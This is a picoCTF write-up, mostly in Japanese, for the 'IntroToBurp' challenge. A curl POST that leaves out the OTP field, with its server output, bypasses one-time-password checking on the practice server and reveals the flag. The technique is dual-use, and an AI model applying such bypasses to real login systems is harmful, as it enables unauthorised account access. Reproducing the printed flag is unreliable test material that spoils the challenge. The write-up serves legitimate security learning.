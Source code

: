 # IntroToBurp:Web Exploitation:100pts
Try [here](http://titan.picoctf.net:58326/) to find the flag  

Hints  
1  
Try using burpsuite to intercept request to capture the flag.  
2  
Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.  

# Solution
URLが渡される。  
アクセスするとRegistrationフォームであった。  
![site1.png](site/site1.png)  
入力し送信するとOTPを求められる。  
![site2.png](site/site2.png)  
`1`と適当に入力して送信すると、`http://titan.picoctf.net:58326/dashboard`にPOSTで`otp=1`のように送信している。  
ひとまず、これを消してPOSTしてみることを思いつく。  
```bash
$ curl -X POST http://titan.picoctf.net:58326/dashboard -H 'Cookie: session=.eJwtzMsOwiAQBdBfMaxdQBGw_obdk-EVsS00PGIa4787mi7nzL33TWxsO7mRKc97Jmdiawm65dknROkYN8qAsaOSjPIRBDNwlV6pQDkXzDlnKVywF_qy6ASrx9odcCCeptqfEV-5bYiCDVIOeG5Q6ysXh1b_wZ89cvI69dX4gk6RevXl2Dtiny8s1DZQ.Zfm_sQ.rG5nVfmHj-E4HkfVggyivtGpuV0'
Welcome, satoki you sucessfully bypassed the OTP request.
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}
```
flagが得られた(どこかで見たGuessなCTFを感じる)。  

## picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}